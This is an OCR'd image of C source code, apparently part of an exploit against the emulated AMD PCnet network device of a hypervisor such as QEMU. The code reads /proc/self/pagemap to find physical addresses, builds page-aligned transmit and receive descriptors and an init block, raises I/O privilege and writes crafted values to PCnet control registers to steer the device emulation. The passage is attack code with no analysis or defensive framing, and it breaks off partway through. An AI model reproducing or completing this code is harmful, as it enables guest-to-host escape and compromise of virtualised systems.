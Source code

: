 ```
    void *addr;

    uint32_t fcs = ~0;
    uint8_t *ptr;

    uint16_t initblk32_lo, initblk32_hi;
    uint16_t tmd_lo, tmd_hi;
    uint16_t rmd_lo, rmd_hi;
    
    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd < 0) {
        perror("open");
        exit(1);
    }

    tmd = (struct pcnet_TMD *)aligned_alloc(
        PAGE_SIZE, sizeof(struct pcnet_TMD));
    rmd = (struct pcnet_RMD *)aligned_alloc(
        PAGE_SIZE, sizeof(struct pcnet_RMD));
    initblk32 = (struct pcnet_initblk32 *)aligned_alloc(
        PAGE_SIZE, sizeof(struct pcnet_initblk32));
    
    pcnet_tmd_mem = (uint32_t)set_tmd(tmd);
    pcnet_rmd_mem = (uint32_t)set_rmd(rmd);
    pcnet_initblk32_mem = (uint32_t)set_csr_15_value_equal_2(initblk32, pcnet_tmd_mem, pcnet_rmd_mem);

    tmd_lo = (uint16_t)pcnet_tmd_mem;
    tmd_hi = pcnet_tmd_mem >> 16;
    rmd_lo = (uint16_t)pcnet_rmd_mem;
    rmd_hi = pcnet_rmd_mem >> 16;
    initblk32_lo = (uint16_t)pcnet_initblk32_mem;
    initblk32_hi = pcnet_initblk32_mem >> 16;

    iopl(3);

    inw(PCNET_PORT + 0x14);

    outw(58, PCNET_PORT + 0x12);
    outw(0x102, PCNET_PORT + 0x10);

    printf("tmd_addr:\t %p\n",pcnet_tmd_mem);
    printf("rmd_addr:\t %p\n",pcnet_rmd_mem);
    printf("initblk32_addr:\t %p\n",pcnet_initblk32_mem);

    //first set csr[2] << 16 | csr[1]
    //sencond if csr[2] << 16 | csr[1] that mode = 4 and csr[15] != 2
    //third if csr[15] != 2 that csr[0] | 0x10
    outw(1, PCNET_PORT + 0x12);
    outw(initblk32_lo, PCNET_PORT + 0x10);
    outw(2, PCNET_PORT + 0x12);
    outw(initblk32_hi, PCNET_PORT + 0x10);

    //set cxda = tmd_addr
    outw(34, PCNET_PORT + 0x12);
    outw(tmd_lo, PCNET_PORT + 0x10);
    outw(35, PCNET_PORT + 0x12);
    outw(tmd_hi, PCNET_PORT + 0x10);
    
    //CSR_DPOLL
    outw(4, PCNET_PORT + 0x12);
    outw(0x1000, PCNET_PORT + 0x10);

```